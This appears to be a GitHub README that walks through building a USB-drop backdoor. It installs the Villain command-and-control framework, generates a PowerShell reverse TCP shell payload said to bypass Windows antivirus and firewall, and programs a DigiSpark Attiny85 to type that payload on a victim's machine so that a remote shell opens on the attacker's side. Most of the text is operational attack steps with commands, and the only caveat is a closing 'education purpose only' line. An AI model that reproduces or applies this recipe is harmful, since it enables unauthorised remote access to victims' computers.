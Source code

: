 # Network-Security

# Requirements:
•	 Kali Linux (attacker’s machine) <br>
•	 Windows 11 (victim’s machine) <br>
•	 Villain Tool on Kali Linux <br>
•	 DigiSpark Attiny85 <br>
•	 Arduino IDE <br>

# Installing Villain Tool
Install the latest version of Villain manually:<br>
```console
sudo git clone https://github.com/t3l3machus/Villain.git<br>
```
![1](https://github.com/mishqatabid/Network-Security/assets/145700715/09fc9dac-f0db-40b0-a0f4-40429e2849f9)<br>

Install the `requirements.txt` <br>
```console
cd ./Villain
pip3 install -r requirements.txt
```
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/bf6b1320-018e-4696-9bfa-531802b8824a)<br>

You should also install `gnome-terminal` (required for one of the framework's commands):<br>
```console
sudo apt update&&sudo apt install gnome-terminal
```

![3](https://github.com/mishqatabid/Network-Security/assets/145700715/193d2fe2-69b8-4d75-bb41-f9f8c4a05611)<br>

Now it is ready to use<br>

![4](https://github.com/mishqatabid/Network-Security/assets/145700715/58e48912-81fa-4e9f-9c00-8142a1c0b8ec)<br>

# Generate & Test Payload
## Generating Payload
As Villain tool is operating, we will use it to generate to generate the required payload for our backdoor. <br>
To generate the payload, write the keyword generate, specify the type of payload you want to generate, then specify the local host and click enter to get the desired payload<br>
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 
```
![5](https://github.com/mishqatabid/Network-Security/assets/145700715/9ce703b6-b38c-490d-95fb-2053b6abdf96)<br>

## Testing Payload
•	 The payload is generated and it’s time to test the payload. <br>
•	 For testing we are using Windows 11<br>
•	 Open the PowerShell, paste the payload on shell and click enter <br>
•	 You can witness that the payload is running successfully and have bypassed the Windows Antivurus and Firewall

![8](https://github.com/mishqatabid/Network-Security/assets/145700715/0cdfab1e-1864-4f2a-88b6-769287d7126c)<br>

# Deploying Payload
•	 To deploy the payload, we will download the [Arduino IDE](https://www.arduino.cc/en/software)<br>
•	 Open the IDE, create a new sketch file and write down the code for Digispark Attiny85.<br> 
•	 The [Sketch](https://github.com/mishqatabid/Network-Security/blob/main/sketch.ino) is then compiled and uploaded on Arduino present in Digispark Attiny85<br>

![9](https://github.com/mishqatabid/Network-Security/assets/145700715/72708055-3aa5-4420-997f-4c04f5cfc400)<br>

# Backdoor
•	 Now when the victim inject the Attiny85 in its machine. <br>
•	 After few seconds, search bar is opens and PowerShell is searched<br>
•	 It opens the PowerShell, then automatically pastes the payload and click enter to execute it.<br>
•	 Once the script is executed you can witness that a backdoor session has been established on the Villain terminal on attacker’s machine.<br>

![1](https://github.com/mishqatabid/Network-Security/assets/145700715/14a21b81-32fb-4aea-a391-cf8f05fcc434)<br>

•	 Now by typing sessions on the Villain terminal, you can see all the possible session that has been established using the payload.<br>
•	 It contains Session ID, IP Address, OS Type, User, Owner and Status.<br>
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/2e9c453d-733a-4f26-a2a0-6d2f5fb5daeb)<br>
![3](https://github.com/mishqatabid/Network-Security/assets/145700715/5573c2c2-8853-424c-8717-e8e0e623f528)<br>

Now the backdoor has been created, you can easily execute any command<br>

# Use this for Education Purpose ONLY
